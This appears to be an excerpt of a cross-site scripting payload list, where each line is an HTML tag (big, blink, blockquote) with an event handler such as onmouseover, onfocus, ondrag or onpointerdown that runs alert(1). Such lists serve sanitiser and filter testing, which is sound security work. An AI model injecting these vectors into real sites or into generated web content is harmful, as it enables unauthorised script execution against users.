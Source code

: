 <big onmouseleave="alert(1)" style=display:block>test</big>
<big onmousemove="alert(1)" style=display:block>test</big>
<big onmouseout="alert(1)" style=display:block>test</big>
<big onmouseover="alert(1)" style=display:block>test</big>
<big onmouseup="alert(1)" style=display:block>test</big>
<big onmousewheel=alert(1) style=display:block>requires scrolling
<big onpaste="alert(1)" contenteditable>test</big>
<big onpointerdown=alert(1) style=display:block>XSS</big>
<big onpointerenter=alert(1) style=display:block>XSS</big>
<big onpointerleave=alert(1) style=display:block>XSS</big>
<big onpointermove=alert(1) style=display:block>XSS</big>
<big onpointerout=alert(1) style=display:block>XSS</big>
<big onpointerover=alert(1) style=display:block>XSS</big>
<big onpointerrawupdate=alert(1) style=display:block>XSS</big>
<big onpointerup=alert(1) style=display:block>XSS</big>
<blink draggable="true" ondrag="alert(1)" style=display:block>test</blink>
<blink draggable="true" ondragend="alert(1)" style=display:block>test</blink>
<blink draggable="true" ondragenter="alert(1)" style=display:block>test</blink>
<blink draggable="true" ondragleave="alert(1)" style=display:block>test</blink>
<blink draggable="true" ondragstart="alert(1)" style=display:block>test</blink>
<blink id=x style="transition:outline 1s" ontransitionend=alert(1) tabindex=1></blink>
<blink id=x tabindex=1 onfocus=alert(1)></blink>
<blink id=x tabindex=1 onfocusin=alert(1)></blink>
<blink onafterscriptexecute=alert(1)><script>1</script>
<blink onbeforecopy="alert(1)" contenteditable>test</blink>
<blink onbeforecut="alert(1)" contenteditable>test</blink>
<blink onbeforescriptexecute=alert(1)><script>1</script>
<blink onblur=alert(1) id=x tabindex=1 style=display:block>test</blink><input value=clickme>
<blink onclick="alert(1)" style=display:block>test</blink>
<blink oncontextmenu="alert(1)" style=display:block>test</blink>
<blink oncopy=alert(1) value="XSS" autofocus tabindex=1 style=display:block>test
<blink oncut=alert(1) value="XSS" autofocus tabindex=1 style=display:block>test
<blink ondblclick="alert(1)" autofocus tabindex=1 style=display:block>test</blink>
<blink onfocusout=alert(1) id=x tabindex=1 style=display:block>test</blink><input value=clickme>
<blink onkeydown="alert(1)" contenteditable style=display:block>test</blink>
<blink onkeypress="alert(1)" contenteditable style=display:block>test</blink>
<blink onkeyup="alert(1)" contenteditable style=display:block>test</blink>
<blink onmousedown="alert(1)" style=display:block>test</blink>
<blink onmouseenter="alert(1)" style=display:block>test</blink>
<blink onmouseleave="alert(1)" style=display:block>test</blink>
<blink onmousemove="alert(1)" style=display:block>test</blink>
<blink onmouseout="alert(1)" style=display:block>test</blink>
<blink onmouseover="alert(1)" style=display:block>test</blink>
<blink onmouseup="alert(1)" style=display:block>test</blink>
<blink onmousewheel=alert(1) style=display:block>requires scrolling
<blink onpaste="alert(1)" contenteditable>test</blink>
<blink onpointerdown=alert(1) style=display:block>XSS</blink>
<blink onpointerenter=alert(1) style=display:block>XSS</blink>
<blink onpointerleave=alert(1) style=display:block>XSS</blink>
<blink onpointermove=alert(1) style=display:block>XSS</blink>
<blink onpointerout=alert(1) style=display:block>XSS</blink>
<blink onpointerover=alert(1) style=display:block>XSS</blink>
<blink onpointerrawupdate=alert(1) style=display:block>XSS</blink>
<blink onpointerup=alert(1) style=display:block>XSS</blink>
<blockquote draggable="true" ondrag="alert(1)" style=display:block>test</blockquote>
<blockquote draggable="true" ondragend="alert(1)" style=display:block>test</blockquote>
<blockquote draggable="true" ondragenter="alert(1)" style=display:block>test</blockquote>
<blockquote draggable="true" ondragleave="alert(1)" style=display:block>test</blockquote>
<blockquote draggable="true" ondragstart="alert(1)" style=display:block>test</blockquote>
<blockquote id=x style="transition:outline 1s" ontransitionend=alert(1) tabindex=1></blockquote>
<blockquote id=x tabindex=1 onfocus=alert(1)></blockquote>
<blockquote id=x tabindex=1 onfocusin=alert(1)></blockquote>
<blockquote onafterscriptexecute=alert(1)><script>1</script>
<blockquote onbeforecopy="alert(1)" contenteditable>test</blockquote>